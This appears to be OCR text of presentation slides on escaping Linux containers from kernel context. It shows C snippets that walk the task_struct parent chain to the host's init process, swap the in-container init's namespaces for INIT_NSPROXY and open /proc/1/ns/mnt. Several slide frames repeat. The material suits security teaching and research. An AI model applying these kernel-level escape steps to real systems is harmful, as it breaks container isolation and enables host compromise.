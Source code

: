 PID 1

Container

Getting true init

task = (char *)get_task(); while (pid != 1) {
task = *(char **)(task + PARENT_OFFSET); pid = *(uint32_t *)(task + PID_OFFSET); }

PID 1

Container

task_struct
volatile long state void *stack
...lots of fields...
int pid int tgid task_struct *parent cred *cred fs_struct *fs char comm[TASK_COMM_LEN] nsproxy *nsproxy css_set *cgroups
...many more fields...

nsproxy
atomic_t count uts_namespace *uts_ns ipc_namespace *ipc_ns mnt_namespace *mnt_ns pid_namespace *pid_ns_for_children net *net_ns cgroup_namespace *cgroup_ns

Escaping with namespaces
// copy INIT_NSPROXY to the in-container "init" ((_switch_task_ns)(SWITCH_TASK_NS))((void *)cntnr_init,
(void *)INIT_NSPROXY);

PID "1"

Container

Escaping with namespaces
// copy INIT_NSPROXY to the in-container "init" ((_switch_task_ns)(SWITCH_TASK_NS))((void *)cntnr_init,
(void *)INIT_NSPROXY);

PID "1"

Container

Escaping with namespaces
// copy INIT_NSPROXY to the in-container "init" ((_switch_task_ns)(SWITCH_TASK_NS))((void *)cntnr_init,
(void *)INIT_NSPROXY);
// grab in-container init's mnt NS fd int fd = ((_do_sys_open)(DO_SYS_OPEN))(AT_FDCWD,
"/proc/1/ns/mnt", O_RDONLY, 0);

PID "1"

Container

Escaping with namespaces
// copy INIT_NSPROXY to the in-container "init" ((_switch_task_ns)(SWITCH_TASK_NS))((void *)cntnr_init,
(void *)INIT_NSPROXY);

// grab in-container init's mnt NS fd int fd = ((_do_sys_open)(DO_SYS_OPEN))(AT_FDCWD,
"/proc/1/ns/mnt", O_RDONLY, 0);
